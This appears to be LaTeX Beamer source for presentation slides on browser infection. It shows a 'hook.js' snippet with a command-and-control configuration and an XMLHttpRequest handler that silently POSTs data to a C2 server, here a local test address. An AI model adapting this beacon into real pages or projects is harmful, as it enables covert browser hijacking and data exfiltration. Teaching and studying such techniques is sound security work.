 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
  \frametitle{You are Infect!}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{A little command here and a little control there...}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        var config = {                                                                      //CnC server configuration
          server: "127.0.0.1",                                                              //Our test CnC server
          port: 80                                                                          //CnC port
        };
        function cnc(data, callback){                                                       //CnC Handler
	      try{
		    let http = new XMLHttpRequest();
		    http.onreadystatechange = function(){
		      if (this.readyState == 4 && this.status == 200){
				callback(this.responseText);                                //Callback function
				return true;
			  }
			  if (this.readyState == 4 && this.status != 200){
				return false;                                               //Try to fail silently
			  }
		    };
		    http.open('POST', 'http://' + config.server + ':' + config.port, true); //Connect to CnC server
		    http.setRequestHeader('Content-Type', 'application/json');
		    http.send(JSON.stringify(data));                                        //Send the data
		    return true;
	      } catch(error){
		    return false;
	      }
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
